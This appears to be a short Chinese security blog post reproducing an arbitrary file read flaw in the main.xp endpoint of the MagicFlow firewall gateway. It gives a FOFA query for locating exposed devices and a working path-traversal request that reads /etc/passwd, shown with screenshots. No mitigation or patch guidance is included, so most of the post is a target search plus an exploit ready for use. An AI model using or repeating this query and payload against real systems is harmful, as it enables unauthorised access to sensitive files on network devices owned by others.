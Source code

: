 #  MagicFlow-防火墙网关-main.xp-任意文件读取漏洞   
骇客安全  骇客安全   2025-03-22 14:21  
  
# 漏洞描述  
  
MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件  
  
## 漏洞影响  
```
MagicFlow 防火墙网关
```  
  
## FOFA  
```
app="MSA/1.0"
```  
  
## 漏洞复现  
  
登录页面如下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N5mbjCIxZ0IItsO4ibAl72pM2YMiaG733ibppy5ufxumBJMcyGsXA3epHbppW6DZfYQLXHRBlM7fv7w/640?wx_fmt=png&from=appmsg "null")  
  
  
构造POC  
  
```
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N5mbjCIxZ0IItsO4ibAl72pLKhTpRGUgI5yOnwpOFj5K2aTovUvyVUEiafbzlFia2cFzcT0VK170jsA/640?wx_fmt=png&from=appmsg "null")  
  
  
  
